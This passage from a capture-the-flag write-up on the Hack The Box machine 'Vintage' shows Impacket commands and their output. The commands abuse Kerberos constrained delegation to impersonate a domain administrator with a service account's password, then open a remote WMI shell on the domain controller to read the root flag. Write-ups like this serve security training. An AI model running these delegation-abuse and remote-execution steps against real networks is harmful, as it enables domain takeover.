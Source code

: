 ```bash
➜  Vintage getST.py -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating L.BIANCHI_ADM
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

nice!!!

```bash
➜  Vintage klist
Ticket cache: FILE:L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
Default principal: L.BIANCHI_ADM@vintage.htb

Valid starting       Expires              Service principal
04/24/2025 19:55:23  04/25/2025 05:55:15  cifs/dc01.vintage.htb@VINTAGE.HTB
```

Lets finish this box.

```bash
➜  Vintage wmiexec.py -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb 
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vintage\l.bianchi_adm
C:\>type C:\Users\Administrator\Desktop\root.txt
2f8a01858c0f21dbb4d3b834a9fda22
```

## BONUS

### DPAPI part with Cobalt Strike

Lets grab SID first
